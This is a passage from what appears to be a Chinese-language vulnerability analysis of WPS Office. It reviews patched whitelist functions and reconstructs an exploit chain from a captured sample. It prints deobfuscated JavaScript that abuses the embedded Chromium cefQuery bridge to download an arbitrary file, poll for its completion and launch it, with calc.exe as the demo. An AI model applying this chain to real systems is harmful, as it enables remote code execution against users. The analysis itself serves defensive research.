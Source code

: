 在最新版的 WPS 12.1.0.15374 中，负责处理白名单的 KxWebExtensionView::delayShow  
 函数已被弃用，未删除也未调用，新增了一个 KxWebExtensionOsrNotify::show  
 函数用以替代，新函数和旧函数的整体逻辑并无改变。同时 KxWebExtensionOsrNotify::showWebView  
 替代了 KxWebExtensionView::delayShowWebView  
，函数 GetUrl 内删除了对 GetRegUrl 的调用，现在无法通过注册表访问特定域名。  
### 4. WPS Query 利用  
  
将捕获样本中的代码解混淆后，下载任意文件的代码如下所示：  
```
function ExecClientApi(param) {    window.cefQuery({        'request': 'jsAsynCall("' + param + '")'    });};function download() {    ExecClientApi(JSON.stringify({        'method': 'common.util.download',        'params': {            'url': url_exe,            'path': path_exe,            'directGet': 1        }    }));}
```  
  
window.cefQuery 是 Chrome 嵌入式框架（CEF）的渲染进程和浏览进程通信的接口。根据代码判断，渲染进程发送JS代码调用相关的代码，实现了任意文件下载。  
  
由于仅在2022年3月安装包的调试模式下复现成功，这里简述该样本的利用思路。  
  
首先使用 common.util.download 下载恶意文件，下载过程中未下载完成时文件名会被加上后缀 kdtmp，在下载完成后会将该后缀去除。使用 setInterval() 定时调用 common.util.isFileExist，通过设置的 callback 函数判断下载的文件是否存在，也就是文件是否下载完成。  
```
{    'method': 'common.util.isFileExist',    'params': {        'path': 'filepath'    },    'callback': 'window.js_callback_function'}
```  
  
如果文件下载完成，通过调用 common.util.openUrl 实现下载程序的运行。  
```
{    'method': 'common.util.openUrl',    'params':{        'url': 'C:/windows/system32/calc.exe'    }}
```  
  
对于样本中下载多个文件实现白+黑利用等其他细节，就不多赘述了。  
### 5. WPS Query 利用版本测试  
  
经过测试，该利用方式的复现情况如下：  